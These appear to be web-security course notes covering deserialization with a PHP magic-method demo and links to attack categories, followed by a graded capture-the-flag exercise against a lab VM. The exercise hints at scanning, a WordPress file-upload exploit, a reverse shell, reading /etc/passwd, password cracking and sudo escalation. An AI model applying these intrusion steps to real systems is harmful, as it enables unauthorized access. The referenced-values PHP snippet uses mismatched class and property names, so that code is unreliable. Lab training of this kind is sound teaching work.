Some functionalities will require the data to be structured on a very specific format (like a language serialized object or a XML). Therefore, it's more easy to identify is the application might be vulnerable as it needs to be processing that kind of data.
Some specific functionalities my be also vulnerable if a specific format of the input is used (like Email Header Injections).

-  [Deserialization](https://github.com/carlospolop/hacktricks/blob/master/pentesting-web/deserialization)
-  [Email Header Injection](https://github.com/carlospolop/hacktricks/blob/master/pentesting-web/email-header-injection.md)
-  [JWT Vulnerabilities](https://github.com/carlospolop/hacktricks/blob/master/pentesting-web/hacking-jwt-json-web-tokens.md)
-  [XML External Entity](https://github.com/carlospolop/hacktricks/blob/master/pentesting-web/xxe-xee-xml-external-entity.md)

### Deserialization

**Serialization** is the process of turning some object into a data format that can be restored later. People often serialize objects in order to save them to storage, or to send as part of communications.

**Deserialization** is the reverse of that process, taking data structured from some format, and rebuilding it into an object. Today, the most popular data format for serializing data is JSON. Before that, it was XML.

In many occasions you can find some code in the server side that unserialize some object given by the user.
In this case, you can send a malicious payload to make the server side behave unexpectedly.

You should read: https://cheatsheetseries.owasp.org/cheatsheets/Deserialization_Cheat_Sheet.html for learn how to attack.

#### PHP

Magic method used with serialization:

- `__sleep` is called when an object is serialized and must be returned to array

Magic method used with deserialization

- `__wakeup` is called when an object is deserialized.
- `__destruct` is called when PHP script end and object is destroyed.
- `__toString` uses object as string but also can be used to read file or more than that based on function call inside it.

```
<?php
class test {
    public $s = "This is a test";
    public function displaystring(){
        echo $this->s.'<br />';
    }
    public function __toString()
    {
        echo '__toString method called';
    }
    public function __construct(){
        echo "__construct method called";
    }
    public function __destruct(){
        echo "__destruct method called";
    }
    public function __wakeup(){
        echo "__wakeup method called";
    }
    public function __sleep(){
        echo "__sleep method called";
        return array("s"); #The "s" makes references to the public attribute
    }
}

$o = new test();
$o->displaystring();
$ser=serialize($o);
echo $ser;
$unser=unserialize($ser);
$unser->displaystring();

/*
php > $o = new test();
__construct method called__destruct method called
php > $o->displaystring();
This is a test<br />
php > $ser=serialize($o);
__sleep method called
php > echo $ser;
O:4:"test":1:{s:1:"s";s:14:"This is a test";}
php > $unser=unserialize($ser);
__wakeup method called__destruct method called
php > $unser->displaystring();
This is a test<br />
*/
?>
```

If you look to the results you can see that the functions `__wakeup` and `__destruct` are called when the object is deserialized. Note that in several tutorials you will find that the `__toString` function is called when trying yo print some attribute, but apparently that's **not happening anymore**.

[**Autoload Classes**](https://www.php.net/manual/en/language.oop5.autoload.php) may also be **dangerous**.

You can read an explained **PHP example here**: https://www.notsosecure.com/remote-code-execution-via-php-unserialize/, here https://www.exploit-db.com/docs/english/44756-deserialization-vulnerability.pdf or here https://securitycafe.ro/2015/01/05/understanding-php-object-injection/

##### Serializing Referenced Values

If for some reason you want to serialize a value as a **reference to another value serialized** you can:

```
<?php
class AClass {
    public $param1;
    public $param2;
}

$o = new WeirdGreeting;
$o->param1 =& $o->param22;
$o->param = "PARAM";
$ser=serialize($o);
```

## Files

Functionalities that allow to upload files might be vulnerable to several issues.
Functionalities that generates files including user input might execute unexpected code.
Users that open files uploaded by users or automatically generated including user input might be compromised.

-  [File Upload](https://github.com/carlospolop/hacktricks/blob/master/pentesting-web/file-upload)
-  [Formula Injection](https://github.com/carlospolop/hacktricks/blob/master/pentesting-web/formula-injection.md)
-  [PDF Injection](https://github.com/carlospolop/hacktricks/blob/master/pentesting-web/xss-cross-site-scripting/pdf-injection.md)
-  [Server Side XSS](https://github.com/carlospolop/hacktricks/blob/master/pentesting-web/xss-cross-site-scripting/server-side-xss-dynamic-pdf.md)

## External Identity Management

-  [OAUTH to Account takeover](https://github.com/carlospolop/hacktricks/blob/master/pentesting-web/oauth-to-account-takeover.md)
-  [SAML Attacks](https://github.com/carlospolop/hacktricks/blob/master/pentesting-web/saml-attacks)

## Other Helpful Vulnerabilities

This vulnerabilities might help to exploit other vulnerabilities.

-  [Domain/Subdomain takeover](https://github.com/carlospolop/hacktricks/blob/master/pentesting-web/domain-subdomain-takeover.md)
-  [IDOR](https://github.com/carlospolop/hacktricks/blob/master/pentesting-web/idor.md)
-  [Parameter Pollution](https://github.com/carlospolop/hacktricks/blob/master/pentesting-web/parameter-pollution.md)
-  [Unicode Normalization vulnerability](https://github.com/carlospolop/hacktricks/blob/master/pentesting-web/unicode-normalization-vulnerability.md)

## Exercise

### (10 pt) Blogger Website

In this challenge, you need to download the following virtual machine to finish the challenges.

The box was created with `Virtualbox`. Upon booting up use `netdiscover` tool to find the IP address. This is the target address based on whatever settings you have. You should verify the address just in case.

You don't need to answer all questions in order. Skip some questions may not affect the next steps.

Download: https://mega.nz/file/HxFXgIAT#PFjk8HV_ltXVh-Hz1D3xAXYc31GpmgTQeFfkKibn9Tc

Mirror: https://pan.baidu.com/s/1mOZxE_XHgbSZR_yKTWQAbA (Code: 1337)

#### (2 pt) Establish

Environment setup should use `VirtualBox` history version (VirtualBox 6.1.28 has a bug with Hyper-V, I used VirtualBox 6.0.24 and worked properly). You should setup **Network** as the following:


While the **Serial Ports** setting as follow (Port Mode set to `Disconnected`):



The virtual image should enter the following promption:

```bash
Ubuntu 16.04.7 LTS ubuntu-xenial tty1
ubuntu-xenial login: _
```

**Finding the IP address:**

Open you terminal (powershell.exe in Windows), and use `ipconfig /all` to find your `Host-only NET` ip address.



Use any tool to scan the ip `192.168.xx.0/24` and you can find the virtual machine ip address. Otherwise, you can also use `arp -a` to find your `Host-only Network` address, and usually VM's ip address is followed.


Open your web browser, you can find this page in VM's ip address:


You are done with configuration, now you can hack the machine and solve the challenges!

Upload a screenshot about the web page and the IP address would give 2 points.

#### (2 pt) Port scan and directory scan

Using Nmap you can scan open ports of VM. Only port 80 is open and we can find a HTTP website. Using Gobuster or Dirb to scan the website directory, you may find a upload folder under the blogger.

What's the URL of the upload folder?

Answer: `http://ip/******/*****/****/**********/*******/` (replace all stars to your answer)

*Hint: kali wordlists for scanning: /usr/share/wordlists. If you don't have those files, it's fine to search a wordlist online.*

#### (2 pt) Wordpress

It's easy to find the blogger is using Wordpress. The version of the given blogger is vulnerable. What's the vulnerability name of the blogger?

Answer: `A******** F*** U*****` (replace all stars to your answer, needn't to be 100% the same)

*Hint: look at the version of wordpress. Search in the exploitDB.*

#### (2 pt) Reverse shell

Using the vulnerability, you can get a reversed shell. Besides, with some techniques, you can generate a pty shell. What's the name of users?

Answer: `u*****, j****, v******` (replace all stars to your answer)

*Hint: users can be located in /etc/passwd or /home folder.*

#### (2 pt) Root

Weak password is dangerous, using Hydra or other password cracker can easily break the weak password. Get the root privilege and find me `root.txt`.

Answer: `flag{****_****_***_**********_** **}`

*Hint: sometimes sudo can be vulnerable.*
